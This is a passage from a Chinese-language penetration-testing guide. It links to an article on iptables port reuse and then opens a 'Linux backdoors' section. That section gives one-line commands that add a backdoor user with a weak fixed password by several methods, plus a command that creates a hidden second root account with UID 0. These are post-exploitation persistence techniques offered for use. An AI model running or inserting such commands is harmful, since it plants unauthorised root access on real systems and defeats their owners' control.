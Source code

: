 ![](assets/privilege-2-4.png)

具体文章详见：[远程遥控 IPTables 进行端口复用](https://www.freebuf.com/articles/network/137683.html)

## Linux篇-后门

### 创建后门用户

一句话添加用户和密码，添加普通用户：

```sh
# 创建一个用户名guest，密码123456的普通用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest

# useradd -p 方法  ` ` 是用来存放可执行的系统命令,"$()"也可以存放命令执行语句
useradd -p "$(openssl passwd -1 123456)" guest

# chpasswd方法
useradd guest;echo 'guest:123456'|chpasswd

# echo -e方法
useradd test;echo -e "123456\n123456\n" |passwd test
```

添加root用户：

```sh
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```
